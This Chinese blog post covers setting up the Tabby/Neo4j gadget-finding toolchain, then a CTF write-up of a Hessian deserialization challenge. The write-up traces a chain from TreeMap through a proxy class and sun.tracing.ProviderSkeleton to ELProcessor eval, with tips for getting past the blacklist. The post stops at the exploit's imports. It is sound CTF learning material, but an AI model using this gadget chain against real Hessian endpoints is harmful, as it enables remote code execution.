










+++
title= "Tabby 安装 & 基础使用"
slug= "tabby-setup-and-basics"
description= ""
date= "2025-12-22T22:58:40+08:00"
lastmod= "2025-12-22T22:58:40+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## Tabby 安装

https://github.com/tabby-sec/tabby注意：最新版本需要运行在 JDK 17 环境下

### neo4j

```bash
https://dist.neo4j.org/neo4j-community-5.26.0-unix.tar.gz


tar -xf neo4j-community-5.26.0-unix.tar.gz
mv neo4j-community-5.26.0 ~/Downloads/Tools/neo4j-v5

cd ~/Downloads/Tools/neo4j-v5
jenv local 17.0.5

./bin/neo4j --version
```

然后登录`neo4j\neo4j`修改密码为`Baozongwi123!`

#### 插件安装

**apoc 插件**

Neo4j v5 版本 apoc 插件改成了两个部分 apoc-core 和 apoc-extend，可自行在以下两个库下载

```bash
https://github.com/neo4j/apoc/releases/download/5.26.0/apoc-5.26.0-core.jar
https://github.com/neo4j-contrib/neo4j-apoc-procedures/releases/download/5.26.0/apoc-5.26.0-extended.jar
```

关于 apoc 插件的版本选择方法，Neo4j 数据库版本的前两位对应 apoc 插件的版本，比如 Neo4j 数据库版本为 v5.3.0，则选择 apoc 插件 v5.3.x 版本

**tabby-path-finder 插件**

该插件集成了图上的污点传递规则，可以进一步减少误报链路的产生。

```bash
https://github.com/tabby-sec/tabby-path-finder/releases
```

然后把这三个 jar 包移动到 plugins 目录下

```bash
mv ~/Downloads/apoc-5.26.0-core.jar plugins/ \
&& mv ~/Downloads/apoc-5.26.0-extended.jar plugins/ \
&& mv ~/Downloads/tabby-path-finder-*.jar plugins/
```

修改配置文件，`conf/neo4j.conf`最后面添加这个

```nginx
# `LOAD CSV` section of the manual for details.
# server.directories.import=import

# 末尾添加
dbms.security.procedures.unrestricted=apoc.*,tabby.*
dbms.security.procedures.allowlist=apoc.*,tabby.*

dbms.memory.heap.initial_size=1G
dbms.memory.heap.max_size=6G
dbms.memory.pagecache.size=4G
```

再添加`conf/apoc.conf`

```nginx
apoc.import.file.enabled=true
apoc.export.file.enabled=true
apoc.import.file.use_neo4j_config=false
```

启动看看，成功之后修改密码

```bash
./bin/neo4j console
```

为了提高分析速度，我们还需要做这些命令执行，由于我是全新安装的，所以只需要这么做就行了，如果你之前也用过的话，还是参考官方手册为准

```bash
// 1. 建立唯一性约束 (防止 ID 重复，保证数据准确)
CREATE CONSTRAINT c1 IF NOT EXISTS FOR (c:Class) REQUIRE c.ID IS UNIQUE;
CREATE CONSTRAINT c2 IF NOT EXISTS FOR (c:Class) REQUIRE c.NAME IS UNIQUE;
CREATE CONSTRAINT c3 IF NOT EXISTS FOR (m:Method) REQUIRE m.ID IS UNIQUE;
CREATE CONSTRAINT c4 IF NOT EXISTS FOR (m:Method) REQUIRE m.SIGNATURE IS UNIQUE;

// 2. 建立索引 (极大提升查询和分析速度)
CREATE INDEX index1 IF NOT EXISTS FOR (m:Method) ON (m.NAME);
CREATE INDEX index2 IF NOT EXISTS FOR (m:Method) ON (m.CLASSNAME);
CREATE INDEX index3 IF NOT EXISTS FOR (m:Method) ON (m.NAME, m.CLASSNAME);
CREATE INDEX index4 IF NOT EXISTS FOR (m:Method) ON (m.NAME, m.NAME0);
CREATE INDEX index5 IF NOT EXISTS FOR (m:Method) ON (m.SIGNATURE);
CREATE INDEX index6 IF NOT EXISTS FOR (m:Method) ON (m.NAME0);
CREATE INDEX index7 IF NOT EXISTS FOR (m:Method) ON (m.NAME0, m.CLASSNAME);
```

查询`CALL apoc.help('all')`



查询`CALL tabby.help('tabby')`




### tabby

来到 tabby 这边，需要和 neo4j 做一个联合调用，修改其文件`config/db.properties`

```nginx
# for docker
tabby.cache.isDockerImportPath            = false

# db settings
tabby.neo4j.username                      = neo4j
tabby.neo4j.password                      = Baozongwi123!
tabby.neo4j.url                           = bolt://127.0.0.1:7687
```

其中，对于docker类型的环境，需要将`tabby.cache.isDockerImportPath`设置成`true`

**最新版本需要运行在 JDK 17 环境下**，Tabby 提供了预制的bash脚本方便执行对应的操作

```bash
if [ $1 = 'build' ]
then
        echo "start to run tabby"
  java -Xmx16g -jar tabby.jar
elif [ $1 = 'load' ]
then
        java -jar tabby-vul-finder.jar load $2
elif [ $1 = 'query' ]
then
        java -jar tabby-vul-finder.jar query $2 $3
elif [ $1 = 'pack' ]
then
  tar -czvf output.tar.gz ./output/*.csv
```

使用

```bash
# 生成代码属性图
./run.sh build

# 载入图数据到 Neo4j
./run.sh load output/dev
# 此处 output/dev 为上一步所生成的 csv 文件夹路径

# 自动化查询可疑链路
./run.sh query project_name
# 此处 project_name 可以为任意名字，后续生成结果将以 project_name 作为文件夹名的一部分


# 打包图数据库
./run.sh pack path/to/csv
# 用于打包 csv 文件，分享给他人
```

### idea plugins

https://github.com/tabby-sec/tabby-intellij-plugin 

安装 zip 包之后导入


配置数据源，重启 idea 即可看到



编写 cypher 后执行，双击查询结果即可跳转到对应的代码上

## 基础使用

一般题目都是给的一个 jar 包，或者是 app 应用也大多数都是 jar 包，现在我们就以H**KCERTCTF2025-Labyrinth**这道昨天没做出来的 Hessian 反序列化为例子，首先修改 Tabby 目录下的`config/settings.properties`由于这题给了 pom.xml，所以直接扫描 classes 会更加准确

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.18</version>
        <relativePath/>
    </parent>

    <groupId>org.example</groupId>
    <artifactId>Labyrinth</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>Labyrinth</name>
    <description>Labyrinth</description>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.dubbo</groupId>
            <artifactId>hessian-lite</artifactId>
            <version>4.0.5</version>
        </dependency>
    </dependencies>
    
    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

先构建

```bash
mvn clean compile dependency:copy-dependencies -DoutputDirectory=./target/lib
```

修改配置文件

```bash
# 目标路径：指向 CTF 题目的 jar 包或解压后的 classes 目录，如果是 jar 包，填绝对路径
tabby.build.target=/Users/admin/Downloads/Jaba/CTF/Labyrinth/Labyrinth-0.0.1-SNAPSHOT.jar


# 依赖库路径：如果题目有依赖库（lib文件夹），填这里；如果没有，可以留空或者指向 JDK rt.jar
# Tabby 会自动分析 JDK 里的类，通常这个指向你的 target 目录即可，或者不仅扫 target 还要扫它旁边的 lib
tabby.build.libraries=/Users/admin/Downloads/Jaba/CTF/Labyrinth/target/lib
# 选择 gadget 模式
#tabby.build.mode                          = web
tabby.build.mode                          = gadget
# 设置 JDK 为自己的 JDK，工具中写的其实是不存在的，否则解析不到 JDK
# settings for jre environments
tabby.build.useSettingJRE                 = true
tabby.build.isJRE9Module                  = false
tabby.build.javaHome                      = /Library/Java/JavaVirtualMachines/jdk1.8.0_66.jdk/Contents/Home

# 是否全量分析 JDK
tabby.build.isJDKProcess                  = true
tabby.build.withAllJDK                    = true
tabby.build.isJDKOnly                     = false
```

开始构建图标

```bash
./run.sh build
./run.sh load output/dev
```

导入的时候说没有 jar 包这里还是一个坑点，因为真的没有 https://github.com/tabby-sec/tabby-vul-finder/releases/tag/v1.0
这里去下载之后自己打包

```bash
jenv local 1.8
mvn clean package -DskipTests
```

控制器

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.example.labyrinth.controller;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class ChallengeController {
    @PostMapping({"/deserialize"})
    public String hessianDeserialize(HttpServletRequest request) {
        try {
            InputStream is = request.getInputStream();
            Hessian2Input input = new Hessian2Input(is);
            input.getSerializerFactory().setAllowNonSerializable(true);
            input.readObject();
            return "success";
        } catch (Exception e) {
            e.printStackTrace();
            return "Error: " + e.getMessage();
        }
    }
}
```

默认情况下，Java 序列化要求类必须实现`Serializable`接口，但是`setAllowNonSerializable(true)`允许 Hessian 序列化那些没有实现该接口的类，但是也加入了其原生黑名单，艹

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.example.labyrinth.model;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

public class CustomProxy extends Proxy implements Comparable<Object> {
    private Method m3;

    public CustomProxy(InvocationHandler h) {
        super(h);
    }

    public CustomProxy(InvocationHandler h, Method m) {
        super(h);
        this.m3 = m;
    }

    public int compareTo(Object o) {
        try {
            if (!"compareTo".equals(this.m3.getName())) {
                throw new UnsupportedOperationException("The bound method m3 is not 'compareTo', but: " + this.m3.getName());
            } else {
                return (Integer)super.h.invoke(this, this.m3, new Object[]{o});
            }
        } catch (Error | RuntimeException e) {
            throw e;
        } catch (Throwable e) {
            throw new RuntimeException(e);
        }
    }
}
```

给了一个手动的代理类，触发 compareTo 之后可以触发 `InvocationHandler#invoke`，这很容易想到 CB 链的`PriorityQueue#readObject`触发到`Comparable#compareTo`

```bash
MATCH (n:Class) RETURN keys(n) LIMIT 1
```

看到属性名是

```bash
["ANNOTATIONS", "IS_ABSTRACT", "HAS_DEFAULT_CONSTRUCTOR", "SUPER_CLASS", "HAS_SUPER_CLASS", "NAME", "INTERFACES", "IS_INTERFACE", "ID", "IS_PUBLIC", "IS_SERIALIZABLE", "HAS_INTERFACES", "METHOD_SUB_SIGNATURES"]
```

验证关系是

```bash
CALL db.relationshipTypes()
```

得到下面的关系

```bash
"EXTENDS""INTERFACE""HAS""ALIAS""CALL"
```

开始查，我们思路很明显了，就是差一个 invokeHandler，

```bash
MATCH (handler:Class)-[:INTERFACE|EXTENDS]->(iface:Class {NAME: "java.lang.reflect.InvocationHandler"})
MATCH (handler)-[:HAS]->(source:Method {NAME: "invoke"})

MATCH (sink:Method)
WHERE sink.NAME = "invoke" 
  AND (sink.CLASSNAME CONTAINS "reflect.Method" OR sink.CLASSNAME CONTAINS "sun.reflect.misc.MethodUtil")

MATCH path = shortestPath((source)-[:CALL*..8]->(sink))

RETURN handler.NAME, path
```



最后打到 EL 表达式加载即可

```bash
MATCH (pq:Class {NAME: "java.util.PriorityQueue"})
MATCH (pq)-[:HAS]->(mRead:Method {NAME: "readObject"})

MATCH (hClass:Class {NAME: "java.beans.EventHandler"})
MATCH (hClass)-[:HAS]->(mHandler:Method {NAME: "invoke"})

MATCH (sink:Method)
WHERE sink.NAME = "invoke" AND sink.CLASSNAME CONTAINS "MethodUtil"

CALL apoc.create.vNode(['Class', 'Ghost'], {NAME: "org.example.CustomProxy", type: "Proxy"}) YIELD node as vProxy
CALL apoc.create.vNode(['Method', 'Ghost'], {NAME: "compareTo"}) YIELD node as vCompareTo

CALL apoc.create.vRelationship(mRead, '1.HEAPSORT_TRIGGER', {detail: "heapify/siftDown"}, vCompareTo) YIELD rel as r1
CALL apoc.create.vRelationship(vProxy, 'HAS', {}, vCompareTo) YIELD rel as rBind
CALL apoc.create.vRelationship(vCompareTo, '2.DYNAMIC_PROXY', {h: "EventHandler"}, mHandler) YIELD rel as r2
OPTIONAL MATCH realPath = shortestPath((mHandler)-[:CALL*..8]->(sink))
CALL apoc.create.vRelationship(mHandler, '3.REFLECT_EXECUTE', {target: "ELProcessor"}, sink) YIELD rel as r3


RETURN mRead, r1, vProxy, rBind, vCompareTo, r2, mHandler, realPath, r3, sink
```



通了， 开始写 poc，🥲然后就发现在黑名单里面，后来找了一会，找不到，看文章，https://research.qianxin.com/archives/3018，看到`ProviderSkeleton#invoke`

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
    Class var4 = var2.getDeclaringClass();
    if (var4 != this.providerType) {
        try {
            if (var4 != Provider.class && var4 != Object.class) {
                throw new SecurityException();
            }

            return var2.invoke(this, var3);
        } catch (IllegalAccessException var6) {
            assert false;
        } catch (InvocationTargetException var7) {
            assert false;
        }
    } else {
        this.triggerProbe(var2, var3);
    }

    return null;
}
```

实际上也就是这条

```java
sun.tracing.ProviderSkeleton#invoke
		sun.tracing.ProbeSkeleton#uncheckedTrigger
					sun.tracing.dtrace.DTraceProbe#uncheckedTrigger
						this.implementing_method.invoke(this.proxy, var1);
```

方法一点没变，

```java
//sun.tracing.ProbeSkeleton#uncheckedTrigger
protected void triggerProbe(Method var1, Object[] var2) {
        if (this.active) {
            ProbeSkeleton var3 = (ProbeSkeleton)this.probes.get(var1);
            if (var3 != null) {
                var3.uncheckedTrigger(var2);
            }
        }

    }

//sun.tracing.dtrace.DTraceProbe#uncheckedTrigger
public void uncheckedTrigger(Object[] var1) {
        try {
            this.implementing_method.invoke(this.proxy, var1);
        } catch (IllegalAccessException var3) {
            assert false;
        } catch (InvocationTargetException var4) {
            assert false;
        }

    }
```

由于 ProviderSkeleton 是个抽象类，我们只需要找个实例化类即可

```java
MATCH (child:Class)-[:EXTENDS*]->(parent:Class {NAME: "sun.tracing.ProviderSkeleton"})
WHERE child.IS_ABSTRACT = false
RETURN child.NAME as ConcreteClass, child.ID as ID
```



```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package sun.tracing;

import com.sun.tracing.Provider;
import java.lang.reflect.Method;
import java.util.Set;

class MultiplexProvider extends ProviderSkeleton {
    private Set<Provider> providers;

    protected ProbeSkeleton createProbe(Method var1) {
        return new MultiplexProbe(var1, this.providers);
    }

    MultiplexProvider(Class<? extends Provider> var1, Set<Provider> var2) {
        super(var1);
        this.providers = var2;
    }

    public void dispose() {
        for(Provider var2 : this.providers) {
            var2.dispose();
        }

        super.dispose();
    }
}
```

那现在思路就是 TreeMap 为入口，到最后 EL 表达式

```java
MATCH (m_put:Method {NAME: "put", CLASSNAME: "java.util.TreeMap"})
MATCH (m_compareTo:Method {NAME: "compareTo", CLASSNAME: "org.example.labyrinth.model.CustomProxy"})
MATCH (m_skel_invoke:Method {NAME: "invoke", CLASSNAME: "sun.tracing.ProviderSkeleton"})
MATCH (m_trigger:Method {NAME: "triggerProbe", CLASSNAME: "sun.tracing.ProviderSkeleton"})
MATCH (m_unchecked:Method {NAME: "uncheckedTrigger", CLASSNAME: "sun.tracing.dtrace.DTraceProbe"})
MATCH (m_reflect:Method {NAME: "invoke", CLASSNAME: "java.lang.reflect.Method"})
MATCH (m_eval:Method {NAME: "eval", CLASSNAME: "javax.el.ELProcessor"})

OPTIONAL MATCH p1 = (m_put)-[:CALL]->(m_compareTo)
OPTIONAL MATCH p2 = (m_compareTo)-[:CALL]->(m_skel_invoke)
OPTIONAL MATCH p3 = (m_skel_invoke)-[:CALL]->(m_trigger)
OPTIONAL MATCH p4 = (m_trigger)-[:CALL]->(m_unchecked)
OPTIONAL MATCH p5 = (m_unchecked)-[:CALL]->(m_reflect)
OPTIONAL MATCH p6 = (m_reflect)-[:CALL]->(m_eval)

RETURN p1, p2, p3, p4, p5, p6
```



需要注意的是这个代理是有一个对象的，我就是卡这里了好久，而且必须使用 File 来获取，如果使用的是接口比如 Comparable 这个类，就会本地通远程不通，而且还容易出现 NPE 问题，

Hessian 为了减小序列化流的体积，当同一个对象实例在一次序列化流中被多次引用时，它不会重复写入该对象的完整结构。相反，它会在第一次遇到对象时，将其反序列化并存入一个内部维护的 **Reference Table**（通常是一个 `ArrayList`）。在之后遇到同一个对象引用时，只写入一个表示引用的字节标记（如 `R`）和该对象在表中的索引（Index）。

Hessian 的引用表是基于单次 `readObject` 生命周期的。如果恶意对象和它依赖的引用不在同一个 `readObject` 调用链中，反序列化时就会报 `NPE`。

那如何解决这个问题呢？将 ELProcessor、Method 和 TreeMap 封装进一个数组🀄️

还有一个小问题，就是 triggerTreeMap 不能写太重了，不然很容器把本地的 JVM 打挂，更被说 remote 了

```java
package org.example;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.example.labyrinth.model.CustomProxy;
import sun.reflect.ReflectionFactory;
import sun.tracing.ProbeSkeleton;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
